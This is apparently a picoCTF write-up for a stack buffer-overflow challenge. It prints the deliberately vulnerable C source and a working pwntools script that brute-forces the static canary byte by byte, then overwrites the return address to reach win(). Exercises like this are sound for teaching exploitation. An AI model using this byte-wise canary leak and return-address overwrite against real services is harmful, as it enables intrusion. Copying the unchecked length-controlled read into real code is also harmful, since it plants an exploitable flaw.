

The binary can be downloaded here.
The source code of the binary is as below.
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>
#define BUFSIZE 64
#define FLAGSIZE 64
#define CANARY_SIZE 4
void win() {
char buf[FLAGSIZE];
FILE *f = fopen("flag.txt","r");
if (f == NULL) {
printf("%s %s", "Please create 'flag.txt' in this directory with your",
"own debugging flag.\n");
fflush(stdout);
exit(0);
}
fgets(buf,FLAGSIZE,f); // size bound read
puts(buf);
fflush(stdout);
}
char global_canary[CANARY_SIZE];
void read_canary() {
FILE *f = fopen("canary.txt","r");
if (f == NULL) {
printf("%s %s", "Please create 'canary.txt' in this directory with your",
"own debugging canary.\n");
fflush(stdout);
exit(0);
}
fread(global_canary,sizeof(char),CANARY_SIZE,f);
fclose(f);
}
void vuln(){
char canary[CANARY_SIZE];
char buf[BUFSIZE];
char length[BUFSIZE];
int count;
int x = 0;
memcpy(canary,global_canary,CANARY_SIZE);
printf("How Many Bytes will You Write Into the Buffer?\n> ");
while (x < BUFSIZE) {
read(0,length+x,1);
if (length[x]=='\n') break;
x++;
}
sscanf(length,"%d",&count);
printf("Input> ");
read(0,buf,count);
if (memcmp(canary,global_canary,CANARY_SIZE)) {
printf("***** Stack Smashing Detected ***** : Canary Value Corrupt!\n"); // crash immediately
fflush(stdout);
exit(0);
}
printf("Ok... Now Where's the Flag?\n");
fflush(stdout);
}
int main(int argc, char **argv){
setvbuf(stdout, NULL, _IONBF, 0);
// Set the gid to the effective gid
// this prevents /bin/sh from dropping the privileges
gid_t gid = getegid();
setresgid(gid, gid, gid);
read_canary();
vuln();
return 0;
}
I created a diagram of the stack (shown below) by analyzing the disassembly of vuln.

Since the response of the program differed based on whether the canary was corrupted or not, and since the canary was consistent across processes, I came up with an exploit similar to Blind SQL Injection. The exploit leaks each character of the canary one byte at a time, significantly reducing the number of guesses you have to make compared to a naive brute force approach.
#!/usr/bin/env python3
from pwn import *
def ex():
context.log_level = "debug"
leaked = b""
for leak_len in range(0, 4):
for i in range(0, 255):
payload = b"A"*64 + leaked + p8(i)
p = remote(b"saturn.picoctf.net", 51745)
p.recvuntil(b"> ")
p.sendline(b"128")
p.recvuntil(b"> ")
p.send(payload)
if b"Canary" in p.recvline(): p.close()
else:
leaked += p8(i)
print(f"{leaked=}")
p.close()
break
p = remote(b"saturn.picoctf.net", 51745)
p.recvuntil(b"> ")
p.sendline(b"128")
p.recvuntil(b"> ")
p.send(b"A"*64 + leaked + b"B"*16 + p32(0x8049336))
p.interactive()
if __name__ == "__main__": ex()